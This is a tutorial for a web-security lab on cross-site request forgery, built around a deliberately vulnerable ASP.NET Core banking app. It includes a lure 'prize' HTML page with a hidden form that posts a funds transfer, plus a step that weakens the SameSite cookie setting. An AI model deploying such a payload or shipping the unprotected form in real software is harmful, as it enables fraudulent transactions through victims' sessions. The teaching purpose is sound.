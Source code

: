 # Cross-Site Request Forgery (XSRF/CSRF) Attacks 

<!-- vscode-markdown-toc -->
* 1. [Objectives](#Objectives)
* 2. [Documentation](#Documentation)
* 3. [Step 1 - Create an application with individual user accounts](#Step1-Createanapplicationwithindividualuseraccounts)
* 4. [Step 2 - Add the CSRF vulnerable webpage](#Step2-AddtheCSRFvulnerablewebpage)
* 5. [Malicious or infected web site](#Maliciousorinfectedwebsite)
* 6. [Attacks](#Attacks)
* 7. [Bibliography](#Bibliography)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc --> 

##  1. <a name='Objectives'></a>Objectives

##  2. <a name='Documentation'></a>Documentation
Cross-site request forgery (also known as XSRF or CSRF, pronounced see-surf) is an attack against web-hosted apps whereby a malicious web app can influence the interaction between a client browser and a web app that trusts that browser. These attacks are possible because web browsers send some types of authentication tokens automatically with every request to a website. This form of exploit is also known as a one-click attack or session riding because the attack takes advantage of the user's previously authenticated session.

> Recommended further reading: Open Web Application Security Project - OWASP (description of the vulnerability in general): https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF); CSRF in ASP.NET: https://docs.microsoft.com/en-us/aspnet/core/security/anti-request-forgery

# Vulnerable website - IronBank Web'Banking

##  3. <a name='Step1-Createanapplicationwithindividualuseraccounts'></a>Step 1 - Create an application with individual user accounts

> :octocat: Full source code available, check the `10 - Vulnerabilities - CSRF (Cross-Site Request Forgery)` folder.

1. Create a new "ASP.NET Core Web App (Model-View-Controller)" project named "IronBankWeb".

2. For "Authentication type" choose "Indvidual Accounts".

3. Notice that in the "Data" folder the application already includes the necessary database migrations.

4. Create an SQL Server database and update the connection string in `appsettings.json`.

5. Run the application.

6. Choose the "Register" link and create a new account.

##  4. <a name='Step2-AddtheCSRFvulnerablewebpage'></a>Step 2 - Add the CSRF vulnerable webpage

1. Add a new controller, called `BankAccountController`.
2. Decorate the controller using the `[Authorize]` annotation in order to prevent any unauthenticated requests towards the actions on this controller.
3. Add an action called `Transfer` to the `BankAccountController` as follows.

    ```C#
    public IActionResult Transfer()
    {
        return View();
    }
    ```

4. Add a new viewmodel class to the `Models` folder.

    ```C#
    public class TransferViewModel
    {
        [Required]
        public string DestinationAccount { get; set; }
        [Required]
        public decimal? Amount { get; set; }
    }
    ```

4. Add a new View for the `Transfer` action.

    ```CSHTML
    @model TransferViewModel
    @{
        ViewData["Title"] = "Transfer";
    }

    <h2>Transfer</h2>

    @if(TempData["message"] != null)
    {
        <div class="alert alert-danger">
            @TempData["message"]
        </div>
    }

    <form method="post">
        <label asp-for="DestinationAccount"></label>
        <input asp-for="DestinationAccount" />
        <label asp-for="Amount"></label>
        <input asp-for="Amount" />
        <input type="submit" />
    </form>
    ```

5. Add a POST method for the form in the View

    ```C#
    [HttpPost]
    public IActionResult Transfer(TransferViewModel transfer)
    {
        if(ModelState.IsValid)
        {
            TempData["Message"] = $"You have transfered {transfer.Amount} euros to {transfer.DestinationAccount}.";
        }
        return View(transfer);
    }
    ```

##  5. <a name='Maliciousorinfectedwebsite'></a>Malicious or infected web site

> :octocat: Full source code available, check the `10 - Vulnerabilities - CSRF (Cross-Site Request Forgery)` folder.

1. Create an `html` file with the following content.

    ```HTML
    <!DOCTYPE html>
    <html>
    <head>
        <title>Malicious or infected web site</title>
    </head>
        <body style="text-align:center;">

            <img src="winner.jpg">

            <h1>Congratulations!</h1>
            <h1>You have won a Samsung Galaxy Fold (2.000 euros)!!!!</h1>
            <form action="http://good-banking-site.com/api/account" method="post">
                <input type="hidden" name="DestinationAccount" value="RO85INGBXXXXXXXXXX">
                <input type="hidden" name="Amount" value="1000000">
                <input type="submit" value="Click to collect your prize!">
            </form>
        </body>
    </html>
    ```

2. You will need to replace "http://good-banking-site.com/api/account" with the actual address of the vulnerable form (ex: https://localhost:5001/BankAccount/Transfer).

##  6. <a name='Attacks'></a>Attacks

1. Check the cookie policy in Google Chome. Change the same site policy to none by adding the following code to the `Main` method of the `Program` class.

    ```C#
    builder.Services.ConfigureApplicationCookie(options =>
    {
        options.Cookie.SameSite = SameSiteMode.None;
    });
    ```

2. 
// asp-antiforgery="false"
// [ValidateAntiForgeryToken]
// TODO? Method using GET

##  7. <a name='Bibliography'></a>Bibliography
- Prevent Cross-Site Request Forgery (XSRF/CSRF) attacks in ASP.NET Core: https://docs.microsoft.com/en-us/aspnet/core/security/anti-request-forgery?
- OWASP CSRF: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
